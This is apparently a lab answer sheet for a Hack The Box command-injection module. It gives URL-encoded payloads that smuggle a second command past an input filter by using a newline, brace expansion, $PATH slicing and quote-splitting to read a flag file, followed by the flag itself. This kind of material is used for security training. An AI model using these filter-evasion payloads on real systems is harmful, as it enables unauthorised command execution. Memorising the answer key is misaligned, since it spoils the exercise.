

# Section 08: Bypassing Blacklisted Commands

Module: 22. Command Injections

---

## Questions & Answers

### 1. Use what you learned in this section find the content of flag.txt in the home folder of the user you previously found.

Context:
- Use this payload `ip=127.0.0.1%0A{cat,${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt}` which execute `cat /home/1nj3c70r/flag.txt`, but got `Invalid input` expected, use the sections we learned: `ip=127.0.0.1%0A{c'a't,${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt}`:

**Answer:** `HTB{b451c_f1l73r5_w0n7_570p_m3}`

---

[Back to Module Index](./README.md)
